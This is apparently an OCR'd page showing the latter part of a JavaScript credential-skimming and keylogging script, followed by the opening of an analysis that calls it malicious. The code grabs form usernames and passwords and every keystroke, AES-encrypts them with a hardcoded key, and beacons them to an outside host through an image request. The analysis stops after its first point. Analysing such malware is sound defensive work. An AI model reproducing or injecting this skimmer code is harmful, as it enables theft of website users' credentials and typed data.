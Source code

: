 ```js
            let username = formData.get('username') || formData.get('email');
            let password = formData.get('password');

            if (username && password) {
                exfiltrateCredentials(username, password);
            }
        });

        document.addEventListener('keydown', function(event) {
            var key = event.key;
            exfiltrateData('keystroke', key);
        });
    }

    function exfiltrateCredentials(username, password) {
        const payload = { user: username, pass: password, site: window.location.hostname };
        const encryptedPayload = encryptPayload(JSON.stringify(payload));
        sendToServer(encryptedPayload);
    }

    function encryptPayload(data) {
        const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
        const iv = CryptoJS.lib.WordArray.random(16);
        const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
        return iv.concat(encrypted.ciphertext).toString(CryptoJS.enc.Base64);
    }

    function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }

    function exfiltrateData(type, data) {
        const payload = { type: type, data: data, site: window.location.hostname };
        const encryptedPayload = encryptPayload(JSON.stringify(payload));
        sendToServer(encryptedPayload);
    }
})();
```

### Explanation of the Script Logic (Potential Malicious Behavior)

This JavaScript code is structured as a self-invoking function and appears to be designed for **credential and keystroke exfiltration**. Here's a breakdown of what it does:

#### 1. **Self-Invoking Function (IIFE)**  
The script is wrapped in an immediately invoked function expression to avoid polluting the global scope and ensure it executes on page load.
